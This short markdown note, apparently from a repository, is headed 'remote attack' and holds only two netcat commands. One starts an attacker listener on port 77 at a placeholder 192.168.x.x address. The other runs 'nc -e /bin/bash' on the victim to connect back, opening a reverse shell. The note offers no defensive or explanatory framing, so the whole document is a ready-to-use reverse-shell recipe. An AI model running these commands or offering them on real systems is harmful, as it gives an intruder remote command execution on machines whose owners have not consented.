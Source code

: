 ## remote attack

- Attacker
```bash
nc -lnvp 77 -s 192.168.x.x
```
- Victim
```bash
nc -e /bin/bash 192.168.x.x 77
```
